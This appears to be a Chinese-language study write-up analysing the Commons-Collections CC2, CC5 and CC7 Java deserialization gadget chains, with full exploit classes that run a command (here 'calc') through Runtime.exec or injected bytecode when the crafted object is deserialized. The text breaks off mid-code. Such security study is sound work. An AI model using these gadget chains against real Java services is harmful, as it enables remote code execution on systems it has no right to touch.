

---

# Commons-Collections CC2链

这个也得下载Commons-Collections 4依赖

## CC2链分析

这个链跟CC4相比就是抛弃了用 `InstantiateTransformer` 类将 `TrAXFilter` 初始化即 `TemplatesImpl.newTransformer()` 这个步骤

而是使用invokerTransformer类去调用`newTransformer`方法，不需要走实例化的步骤

而后面的CC4 链中的 compare 部分是可用的，CC2 链最后部分是 TemplatesImpl 执行动态字节码，直接照搬即可

---

## CC2 链 EXP **编写**

先是`TemplatesImpl`这部分的链子

```
TemplatesImpl templatesimpl = new TemplatesImpl();
Class tc = templatesimpl.getClass();
Field nameField = tc.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templatesimpl,"aaaa");
Field byteccodesField = tc.getDeclaredField("_bytecodes");
byteccodesField.setAccessible(true);

byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
byte[][] codes = {code};
byteccodesField.set(templatesimpl,codes);
```

然后是构造`invokerTransformer`类去调用templates对象的newTransformer方法

```
InvokerTransformer invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
```

然后就是创建 TransformingComparator 类对象，传⼊一个临时的 Transformer 类对象，这样就不会在反序列化前执行了

```
TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
```

然后就是创建PriorityQueue类对象，传入 `transformingComparator` 对象，此时向队列⾥添加的元素需要改成我们前⾯创建的 `TemplatesImpl` 对象

因为最后调用 `PriorityQueue.compare()` 的时候是传入队列中的两个对象

```
if (comparator.compare(x, (E) c) <= 0)
```

然后进入到 `TransformingComparator.compare()` 

```
public int compare(final I obj1, final I obj2) {
	final O value1 = this.transformer.transform(obj1);
	final O value2 = this.transformer.transform(obj2);
	return this.decorated.compare(value1, value2);
    }
```

这里会先对第一个对象进行transform方法的调用，因此这里需要将 priorityQueue 队列中的第一个对象设置为构造好的 `templatesimpl` 对象

**注意：如果第一个是1，第二个是templatesimpl对象的话，因为1这个对象里没有newTransformer方法，就会报错**

```
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
priorityQueue.add(templatesimpl);
priorityQueue.add(2);
```

最后将transformingComparator对象里的无关值用反射改回来

```
Class c = transformingComparator.getClass();
Field transformingField = c.getDeclaredField("transformer");
transformingField.setAccessible(true);
transformingField.set(transformingComparator,invokerTransformer);
```

## 最终完整EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import javax.xml.ws.spi.Invoker;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.channels.Channel;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class cc2 {

    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        InvokerTransformer invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});

        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(templatesimpl);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformingField = c.getDeclaredField("transformer");
        transformingField.setAccessible(true);
        transformingField.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

---

## 总结

简单画个流程图



可以看到就是直接跳过了`InstantiateTransformer.transform`获取`TrAXFilter`的构造函数然后实例化`TrAXFilter`对象最后触发`templates.newTransformer()`的步骤

直接`InvokerTransformer.transform`调用`templates.newTransformer`方法

---

# Commons-Collections CC5链

## CC5 链分析

CC5的后半条链子就是正版CC1链

参考 yso 的官方链子，入口类是 `BadAttributeValueExpException` 的 `readObject()` 方法

先跟进`BadAttributeValueExpException` 的 `readObject()` 方法



```
val = valObj.toString();
```

这里调用了`toString()`方法，然后跟进到`TiedMapEntry` 类的`toString()`方法



可以发现这里调用了`getValue()`方法

并且`getValue方法`调用了`get()`方法



这就和CC1官方版的`LazyMap.get()`连起来了

---

## EXP初步编写

这里先把LazyMap部分先写出来

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class cc5 {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };


        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

        Class<LazyMap> lazyMapClass = LazyMap.class;
        Method lazyGetMethod = lazyMapClass.getDeclaredMethod("get", Object.class);
        lazyGetMethod.setAccessible(true);
        lazyGetMethod.invoke(decorateMap, chainedTransformer);

    }


}

```

成功弹出计算器，然后是`TiedMapEntry` 类调用 `toString()` 方法的 EXP。

---

先看看`TiedMapEntry类`，发现这个类可以序列化，并且是public的类，构造方法也是可以直接传参

所以只需要将 map 赋值为 decorateMap 即可。然后调用toString就会自动调用get方法



编写EXP

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;


public class cc5 {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(decorateMap, "value");
        tiedMapEntry.toString();

    }


}

```

---

## 完整EXP编写

结合入口类编写完整EXP

首先是new一个入口类

```
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
```

这里我们先不放入前面的tiedMapEntry，而是填入一个null进去



因为这里我们传除了null以外的对象，BadAttributeValueExpException类的构造函数就会自动调用一次toString，导致我们的命令在反序列化前就执行。所以我们先传一个null。

new完之后，我们修改 `BadAttributeValueExpException` 的 val 值， `BadAttributeValueExpException` 是支持序列化的，我们用反射的方式来修改。

```
Class c = badAttributeValueExpException.getClass();
Field badAttributeValueExpField = c.getDeclaredField("val");
badAttributeValueExpField.setAccessible(true);
badAttributeValueExpField.set(badAttributeValueExpException, tiedMapEntry);
```

**完整EXP：**

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;


public class cc5 {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke"
                        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(decorateMap, "value");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class c = badAttributeValueExpException.getClass();
        Field badAttributeValueExpField = c.getDeclaredField("val");
        badAttributeValueExpField.setAccessible(true);
        badAttributeValueExpField.set(badAttributeValueExpException, tiedMapEntry);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");


    }

    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}

```

---

## 总结

简单画个流程图



---

# Commons-Collections CC7链

## CC7链分析

后半条链子还是CC1链，这里我们追一下前半条链子，还是参考yso

入口类是`Hashtable`，直接跟进这个类

`Hashtable类`的`readObject()` 方法调用了 `reconstitutionPut()` 方法



跟进 `reconstitutionPut()` 方法，发现这个方法里调用了equals()方法



这里我们的key也就是LazyMap对象，所以会调用LazyMap对象的equals()方法

但是LazyMap类中没有equals()方法，所以会自动在父类中找equals方法，所以我们跟进到`AbstractMapDecorator` 这个类，这个类是

LazyMap的父类，并且这个类有equals()方法。


然后这里会判断传入的对象是不是调用者，如果不是则会调用map.equals()，我们去看看这里的map是什么


可以看到AbstractMapDecorator中的map是transient类型

然后我们看看这个类的构造方法

```
public AbstractMapDecorator(Map map) {
        if (map == null) {
            throw new IllegalArgumentException("Map must not be null");
        }
        this.map = map;
    }
```

可以看到这里给map赋值了

并且在LazyMap的构造方法里发现这次还初始化了父类也就是AbstractMapDecorator，并且刚好传了map进去

```
    protected LazyMap(Map map, Transformer factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        }
        this.factory = factory;
    }
```

而LazyMap的构造方法虽然是protected，但是前面CC1的时候就说过可以调用内部的静态方法decorate()方法来调用

```
    public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
```

所以这里我们传入HashMap对象进去，所以再回到`AbstractMapDecorator` 类的equals()方法，这里由于我们将map赋值为了HashMap对象，所以这里会调用HashMap类的equals()方法。

但是有HashMap类是没有重写equals()方法的，所以就会调用父类也就是`AbstractMap`类的equals()方法


可以看到在`AbstractMap`类中调用了get()方法，然后后续就能和CC1链进行合并了。

---

## EXP 构造

首先将LazyMap的链子也就是后半段链子先写下来

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.*;
import java.util.*;


public class cc7 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);

        Class c = LazyMap.class;
        Method lazyMapMethod = c.getDeclaredMethod("get",Object.class);
        lazyMapMethod.setAccessible(true);
        lazyMapMethod.invoke(decorateMap,chainedTransformer);

    }
}

```

然后就是结合入口类`Hashtable`编写EXP，但是这里有个问题需要解决，就是哈希碰撞

---

### Hash碰撞问题

这里我们如果需要构造Hash碰撞才能触发链子，现在来分析一下为什么‘

在Hashtable反序列化时，会将表中的键值对分别反序列化

```
        for (; elements > 0; elements--) {
            @SuppressWarnings("unchecked")
                K key = (K)s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V)s.readObject();
            // synch could be eliminated for performance
            reconstitutionPut(table, key, value);
        }
```

**然后调用reconstitutionPut方法将反序列化读取的键值对安全地放入 Hashtable 的 table 数组中**

然后我们跟进reconstitutionPut方法

```
private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        @SuppressWarnings("unchecked")
            Entry<K,V> e = (Entry<K,V>)tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

可以看到这里会先进行hashcode的计算，即计算hash值

```
int hash = key.hashCode();
```

然后计算数组索引index

```
int index = (hash & 0x7FFFFFFF) % tab.length;
```

然后会遍历链表，但是在反序列化第一对键值对时，不会进入遍历步骤，因为此时table数组还是空的

即对应的tab[index]的值是null

```
for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) 
```

所以就不会调用equals方法

```
if ((e.hash == hash) && e.key.equals(key)) 
```

这样的话我们后续的链子就没法进行

所以这里我们要解决两个问题

**一个问题是怎么进入遍历？**

解决办法：我们可以传入至少两个键值对，就能进入到遍历链表步骤，并且让第二个键值对计算出的index与第一个相同，这样tab[index]的值才不为null，而是上一个放进tab数组的Entry

```
 tab[index] = new Entry<>(hash, key, value, e);
```

**第二个问题是怎么过第一个if？**

我们让第二个键值对计算出的hash值与前一个相等就可以了，也就是hash碰撞

注意：这里我们不能传入两个相同的key来使hash值相同，原因后面再说

---

### EXP问题解决

这里参考yso的链子

```
HashMap<Object, Object> hashMap1 = new HashMap<>();  
HashMap<Object, Object> hashMap2 = new HashMap<>();  
Map decorateMap1 = LazyMap.decorate(hashMap1, chainedTransformer);  
decorateMap1.put("yy", 1);  
Map decorateMap2 = LazyMap.decorate(hashMap2, chainedTransformer);  
decorateMap2.put("zZ", 1);  
```

构造两个LazyMap，，然后分别传入HashMap和chainedTransformer

然后这里的put

```
decorateMap1.put("yy", 1);
decorateMap2.put("zZ", 1);
```

这里就是hash碰撞了，在java中`yy` 和 `zZ` 由 `hashCode()` 计算出来的值是相同的

也就是`"yy".hashCode() == "zZ".hashCode()`，这样就能进入遍历并且绕过if中的第一个条件

然后下一步

```
Hashtable hashtable = new Hashtable();  
hashtable.put(decorateMap1, 1);  
hashtable.put(decorateMap2, 1);  
```

把两个LazyMap对象put到hashtable中

---

最后这里需要把decorateMap2中的`yy`remove掉

```
decorateMap2.remove("yy");  
```

原因是在`hashtable.put()`过程中也会调用到 `equals()` 方法，然后进入到LazyMap.get()方法

下面详细解释为什么要remove

---

#### 为什么remove

```
int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
```

前面我们构造了hash碰撞，所以我们这里就能进入到遍历并且能过`e.hash == hash`，关键在这

```
e.key.equals(key)
```

这里就相当于

```
LazyMap1.equals(LazyMap2)
```

然后进入到AbstractMap类的equals方法

```
    public boolean equals(Object o) {
        if (o == this)
            return true;

        if (!(o instanceof Map))
            return false;
        Map<?,?> m = (Map<?,?>) o;
        if (m.size() != size())
            return false;

        try {
            Iterator<Entry<K,V>> i = entrySet().iterator();
            while (i.hasNext()) {
                Entry<K,V> e = i.next();
                K key = e.getKey();
                V value = e.getValue();
                if (value == null) {
                    if (!(m.get(key)==null && m.containsKey(key)))
                        return false;
                } else {
                    if (!value.equals(m.get(key)))
                        return false;
                }
            }
        } catch (ClassCastException unused) {
            return false;
        } catch (NullPointerException unused) {
            return false;
        }

        return true;
    }
```

关键在这

```
if (!value.equals(m.get(key)))
```

这里m就是LazyMap2对象，而key是当前对象遍历得到的key也就是LazyMap1中的key：`yy`

然后就会进入到LazyMap.get()方法

```
    public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

可以看到由于LazyMap2中没有`yy`这个key，所以就会执行if中的代码。

这时就会调用transform，这会导致命令在反序列化前就执行，然后自动在LazyMap2中添加`yy`这个key，导致后续反序列化之后无法执行到transform。

所以我们在执行完Hashtable.put之后要remove掉decorateMap2中的`yy`这个key

---

#### 为什么不能传相同值

和上面为什么要remove同理，虽然传同样的值，hashcode值是相同的，但是到了LazyMap.get，由于LazyMap2中存在key

map.containsKey(key) == false

这个判断就没法通过，就不能执行transform方法。

---

## 完整EXP

这里我们解决了前面的两个问题，直接给出完整EXP

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.*;
import java.util.*;


public class cc7 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> hashMap1 = new HashMap<>();
        HashMap<Object, Object> hashMap2 = new HashMap<>();

        Map decorateMap1 = LazyMap.decorate(hashMap1, chainedTransformer);
        decorateMap1.put("yy", 1);
        Map decorateMap2 = LazyMap.decorate(hashMap2, chainedTransformer);
        decorateMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(decorateMap1, 1);
        hashtable.put(decorateMap2, 1);
        decorateMap2.remove("yy");

        serialize(hashtable);
        unserialize("ser.bin");

    }

    public static void serialize(Object o) throws IOException {
